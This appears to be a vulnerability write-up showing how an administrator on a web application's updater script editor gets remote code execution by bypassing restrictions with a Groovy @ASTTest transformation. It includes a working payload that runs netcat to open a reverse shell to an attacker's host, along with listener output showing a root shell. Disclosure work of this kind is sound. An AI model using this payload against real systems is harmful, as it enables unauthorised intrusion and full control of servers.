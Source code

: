 # Remote Code Execution
The web application contains functionality with which the default administrator user is able to run scripts using the updater editor. This functionality is restricted, for example Java system commands are unavailable. It is possible to use the same bypass as was found in Jenkins last year, using a Groovy transformation, to execute system commands. More information about this bypass can be found at the following great [blogpost](https://devco.re/blog/2019/02/19/hacking-Jenkins-part2-abusing-meta-programming-for-unauthenticated-RCE-en/) by Orange Tsai.

“@ASTTest is a special Abstract Syntax Tree (AST) transformation meant to help debugging other AST transformations or the Groovy compiler itself. It will let the developer “explore” the AST during compilation and perform assertions on the AST rather than on the result of compilation. This means that this AST transformations gives access to the AST before the Bytecode is produced.”

In a new updater script, the following snippet was added with a payload to connect back to another system:

`@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec("nc 172.18.0.1 4444 -e /bin/bash")})`

The screenshot below shows it can simply be added to the default placeholder code.

![rce image](https://raw.githubusercontent.com/tvrbk/tvrbk.github.io/main/_posts/brXM-15.png)

The listener on the attacker's system will receive the connection.

{% highlight sh %}
user@ubuntu:~$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 172.19.0.3 38665
hostname
53edca38e8e1
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)%
{% endhighlight %}
